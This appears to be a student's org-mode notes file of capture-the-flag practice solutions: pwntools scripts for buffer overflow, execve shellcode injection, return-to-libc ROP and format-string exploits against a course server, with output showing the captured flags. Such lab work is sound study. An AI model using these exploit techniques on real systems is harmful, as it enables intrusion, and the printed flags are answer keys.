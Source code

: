 * prac2
** bof
   simple buffer overflow return to function <www>
#+BEGIN_SRC python :results org output :python  ~/pyenv/bin/python3 :exports both
payload = b'A' * (0x20 + 8)                                                                                                
from pwn import *
www = p64(0x400686)
host = "csie.ctf.tw"
port = 10125
r = remote(host, port)                                                                                                     
r.recvuntil(b":")
r.send(payload + www)
r.recvline()                                             
sleep(1)                                                 
r.sendline("cat /home/`whoami`/flag")                    
sleep(1)                                                 
f = r.recv().decode("ascii")
print(f)

#+END_SRC

#+RESULTS:
#+BEGIN_SRC org
[x] Opening connection to csie.ctf.tw on port 10125
[x] Opening connection to csie.ctf.tw on port 10125: Trying 140.112.31.96
[+] Opening connection to csie.ctf.tw on port 10125: Done
FLAG{vCa9cA1Gkp6BlV0ZrKIdHJlT8fabo6hE}

[*] Closed connection to csie.ctf.tw port 10125
#+END_SRC

** ret2sc
   no nx and no PIE, write shellcode to variable <name> , then use buffer overflow to return 
   to <name>
#+BEGIN_SRC python :results org output :python  ~/pyenv/bin/python3 :exports both
from pwn import *
context.arch = "amd64"
shell = asm("""
call main
.ascii "/bin/sh"
.byte 0

main:
  mov rax, 59
  mov rdi, [rsp]
  mov rdx, 0
  mov rsi, 0
  syscall
""")
#shell = b'\xe8\x08\x00\x00\x00/bin/sh\x00H\xc7\xc0;\x00\x00\x00H\x8b<$H\xc7\xc6\x00\x00\x00\x00H\xc7\xc2\x00\x00\x00\x00\x0f\x05'
name = p64(0x601080)
payload = b"A" * 248
r = remote("csie.ctf.tw", 10126)
r.recvuntil(":")                                         
b'Name:'
r.sendline(shell)                                        
r.recvuntil(":")                                         
b'Try your best:'
r.sendline(payload + name)                                
sleep(1)                                                 
r.sendline("cat /home/`whoami`/flag")                    
sleep(1)                                                 
f = r.recv().decode("ascii")
print(f)
#+END_SRC

#+RESULTS:
#+BEGIN_SRC org
b'\xe8\x08\x00\x00\x00/bin/sh\x00H\xc7\xc0;\x00\x00\x00H\x8b<$H\xc7\xc2\x00\x00\x00\x00H\xc7\xc6\x00\x00\x00\x00\x0f\x05'
[x] Opening connection to csie.ctf.tw on port 10126
[x] Opening connection to csie.ctf.tw on port 10126: Trying 140.112.31.96
[+] Opening connection to csie.ctf.tw on port 10126: Done
FLAG{6EWQLMK1GDzMlV6vPFokzmtux4Fh42yJ}

[*] Closed connection to csie.ctf.tw port 10126
#+END_SRC

** ret2lib
#+BEGIN_SRC python :results org output :python  ~/pyenv/bin/python3 :exports both
from pwn import *
r = remote("csie.ctf.tw", 10127)

puts_got = "601018" 
puts_off = 0x6f690
system_off = 0x45390  
binsh_off = 0x18cd17
payload = b"A" * 56

pop_rdi = p64(0x00400823)
ret = p64(0x00400541)

r.recvuntil(":")
r.sendline(puts_got)
r.recvuntil(":")
puts_addr = int(r.recvline().strip(), 16)
r.recvline()
libc_base = puts_addr - puts_off
system_addr = p64(libc_base + system_off)
binsh_addr = p64(libc_base + binsh_off)
exploit = flat([payload, pop_rdi, binsh_addr, system_addr,  ret])
r.sendline(exploit)
r.recv()
sleep(1)
r.sendline("cat /home/`whoami`/flag")
sleep(1)
f = r.recv().decode("ascii")
print(f)

#+END_SRC

#+RESULTS:
#+BEGIN_SRC org
[x] Opening connection to csie.ctf.tw on port 10127
[x] Opening connection to csie.ctf.tw on port 10127: Trying 140.112.31.96
[+] Opening connection to csie.ctf.tw on port 10127: Done
FLAG{O66cJwwT8lKl1oKhUG8DcwZxTSwnLaHu}

[*] Closed connection to csie.ctf.tw port 10127
#+END_SRC
** format
#+BEGIN_SRC python :results org output :python  ~/pyenv/bin/python3 :exports both
from pwn import *
fmt = "%67$p"
r = remote("csie.ctf.tw", 10128)
r.recvuntil(" = ")
r.sendline(fmt)
p = int(r.recvline().split()[-1], 16)
r.recvuntil(" = ")
r.sendline(str(p))
r.recvline()
f = r.recvline()
print(f)
#+END_SRC

#+RESULTS:
#+BEGIN_SRC org
[x] Opening connection to csie.ctf.tw on port 10128
[x] Opening connection to csie.ctf.tw on port 10128: Trying 140.112.31.96
[+] Opening connection to csie.ctf.tw on port 10128: Done
b'FLAG{__format_str_exploit_OUO}\n'
[*] Closed connection to csie.ctf.tw port 10128
#+END_SRC
